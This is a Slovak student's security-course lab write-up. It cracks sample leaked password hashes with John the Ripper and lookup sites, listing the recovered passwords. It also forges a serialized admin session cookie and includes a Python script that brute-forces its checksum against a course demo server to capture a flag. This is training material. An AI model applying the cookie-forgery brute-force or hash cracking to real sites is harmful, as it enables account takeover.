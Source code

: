 # Cvičenie 4 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 4.1 Weak passwords and hashing
- Unikla vám databáza s heslami vašich používateľov.
- Identifikujte formát hashovania jednotlivých hesiel hashovaciu funkciu a prípadný salt a napíšte, či je dané hashovanie bezpečné. Ak nie, uvedte pre čo.
- Pokúste sa zlomit jednotlivé heslá pomocou OSINT a crackovacích nástrojov (john the ripper alebo hashcat).Heslá sa nachádzajú v slovníkoch s bežnými heslami.


Použil som nástroj hash-identifier na zistenie hashov hesiel

**320f90360b2e6242a1605c6a43466691** - MD5

Na cracknutie som použil túto stránku: https://md5.j4ck.com/13950 a heslo je **krokodil123**

**da39a3ee5e6b4b0d3255bfef95601890afd80709** - SHA-1

Na cracknutie som použil túto stránku: https://sha1.gromweb.com/?string= a heslo je empty string

![](image.png)


**$1$e89cca48$.lNUNFuE848.qRakPnepu/** - MD5 (Unix)

Na cracknutie hesla som použil nástroj john the ripper a heslo je **12345678**

![](image-1.png)


**$5$1111$Fu1TGVjZl6a7x2vnKn5HqzhlevDCQyGObcGPAziy61D** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **password1**

![](image-2.png)

**$5$1111$N21DKC75OGVQpl5dkeN0FUvsR3JoiyLP1XxSkDOAfM7** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **nbusr123**

![](image-3.png)

## 4.2 Broken authentication
- Na stránke “backend.php” nájdete prihlasovací formulár.
- Vaše meno a heslo a heslo je “bit” “bit”.
- Získajte prístup do administrátorskej časti stránky a nájdite “flag”.


Najprv som sa prihlásil a našiel cookie v browseri.

![](image-4.png)

Toto znamená, že cookie má v sebe 2 informácie: sess a sess_csum. Sess string som dal do base64 dekódera a vyhodilo mi to nasledovný output:

```php
O:8:"stdClass":4:{
    s:2:"id";i:13;
    s:5:"login";s:3:"bit";
    s:8:"password";s:3:"bit";
    s:8:"is_admin";b:0;
}
```

Tento output je vlastne serializovaný cookie, tak som v dátach zmenil polia **id** na 1, **login** na jozko, **password** na kreslo a **is_admin** na 1. Dáta som následne naspäť enkódoval a vyšiel mi tento base64 string:

```
Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ==
```

Po pár pokusoch o uhádnutie checksum (nájdenie nejakého vzorca) som si napísal script, ktorý brute force-uje všetky checksum 0-1000:

```py
import requests

url = "https://xviest.bit.demo-cert.sk/backend.php"

login_data = {
    "action": "login",
    "login": "bit",
    "password": "bit"
}

with requests.Session() as session:
    response = session.post(url, data=login_data)
    cookie = session.cookies.get_dict()

results = []

for i in range(1000):
    cookie["sess"] = "Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ=="
    cookie["sess_csum"] = str(i)
    response = requests.get(url, cookies=cookie)
    curr_cookie = "checksum {}: {}".format(i, response.content)

    print(curr_cookie)

    results.append(curr_cookie)

print(results)
```

S týmto postupom som našiel správnu hodnotu checksum, ktorá je **103**

![](image-5.png)


Keď som nahradil cookie údaje, tak sa mi zobrazil "flag": **krtko**


![](image-7.png)

![](image-6.png)

## 4.4 More code review

- Na adrese https://bit.demo-cert.sk/derave2.phps nájdete časť zdrojového kódu webovej aplikácie napísanej v jazyku PHP.
- Nájdite v nej čo najviac zraniteľností a logický chýb. (aspon 3)
- Zamerajte sa na typy zranitelností, ktoré ste neobjavili v úlohe 3.4
- Okomentujte ich a vyskúšajte ich pomenovať pomocou CWE identifikátorov.
- Bonus: Navrhnite odporúčania, ako problému odstrániť, prípadne opravte kód
